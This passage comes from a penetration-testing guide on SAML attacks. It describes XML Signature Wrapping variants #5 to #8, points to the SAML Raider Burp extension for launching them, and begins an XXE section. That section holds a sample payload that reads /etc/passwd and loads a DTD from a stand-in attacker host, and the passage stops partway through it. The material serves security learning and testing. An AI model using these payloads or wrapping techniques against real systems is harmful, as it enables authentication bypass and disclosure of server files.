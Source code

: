 ![[<../../images/image (551).png>|https://epi052.gitlab.io/notes-to-self/img/saml/xsw-4.svg]]

### XSW #5

- **Unique Aspect**: Neither the Signature nor the original Assertion adhere to standard configurations (enveloped/enveloping/detached).
- **Implication**: The copied Assertion envelopes the Signature, modifying the expected document structure.

![[<../../images/image (1030).png>|https://epi052.gitlab.io/notes-to-self/img/saml/xsw-5.svg]]

### XSW #6

- **Strategy**: Similar location insertion as XSW #4 and #5, but with a twist.
- **Implication**: The copied Assertion envelopes the Signature, which then envelopes the original Assertion, creating a nested deceptive structure.

![[<../../images/image (169).png>|https://epi052.gitlab.io/notes-to-self/img/saml/xsw-6.svg]]

### XSW #7

- **Strategy**: An Extensions element is inserted with the copied Assertion as a child.
- **Implication**: This exploits the less restrictive schema of the Extensions element to bypass schema validation countermeasures, especially in libraries like OpenSAML.

![[<../../images/image (971).png>|https://epi052.gitlab.io/notes-to-self/img/saml/xsw-7.svg]]

### XSW #8

- **Difference from XSW #7**: Utilizes another less restrictive XML element for a variant of the attack.
- **Implication**: The original Assertion becomes a child of the less restrictive element, reversing the structure used in XSW #7.

![[<../../images/image (541).png>|https://epi052.gitlab.io/notes-to-self/img/saml/xsw-8.svg]]

### Tool

You can use the Burp extension [[https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e|**SAML Raider**]] to parse the request, apply any XSW attack you choose, and launch it.

## XXE

If you don't know which kind of attacks are XXE, please read the following page:

[[../xxe-xee-xml-external-entity.md]]

SAML Responses are **deflated and base64 encoded XML documents** and can be susceptible to XML External Entity (XXE) attacks. By manipulating the XML structure of the SAML Response, attackers can attempt to exploit XXE vulnerabilities. Here’s how such an attack can be visualized:

```xml
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY    file SYSTEM "file:///etc/passwd">
   <!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
  <samlp:Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2" ...>
  ...
  <ds:Signature ...>
    <ds:SignedInfo>
      
      
      ...
    </ds:SignedInfo>
```